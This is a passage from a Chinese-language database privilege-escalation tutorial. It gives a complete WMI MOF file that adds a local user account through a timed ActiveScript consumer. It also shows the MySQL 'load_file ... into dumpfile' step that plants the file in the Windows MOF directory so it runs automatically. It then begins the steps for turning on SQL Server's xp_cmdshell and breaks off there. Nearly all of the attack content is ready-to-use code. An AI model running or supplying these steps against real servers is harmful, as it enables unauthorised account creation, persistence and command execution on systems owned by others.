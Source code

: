 1. 创建 nullevt.mof, 执行的系统命令为`net.exe user test 123456 /add`

```vb
#pragma namespace("\\\\.\\root\\subscription")

instance of __EventFilter as $EventFilter
{
    EventNamespace = "Root\\Cimv2";
    Name  = "filtP2";
    Query = "Select * From __InstanceModificationEvent "
            "Where TargetInstance Isa \"Win32_LocalTime\" "
            "And TargetInstance.Second = 5";
    QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
    Name = "consPCSV2";
    ScriptingEngine = "JScript";
    ScriptText =
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user test 123456 /add\")";
};

instance of __FilterToConsumerBinding
{
    Consumer   = $Consumer;
    Filter = $EventFilter;
};
```

2. 导入 nullevt.mof

```sql
select load_file("C:/Temp/nullevt.mof") into dumpfile "C:/Windows/System32/wbem/MOF/nullevt.mof";
```

导入成功后, MySQL 会自动执行 mof 文件

## 3.3 SQLServer xp_cmdshell 提权

这个是带回显的命令执行

### 3.3.1 开启 cmdshell

```sql
EXEC sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO

EXEC sp_configure 'xp_cmdshell',1
GO
RECONFIGURE
GO

```
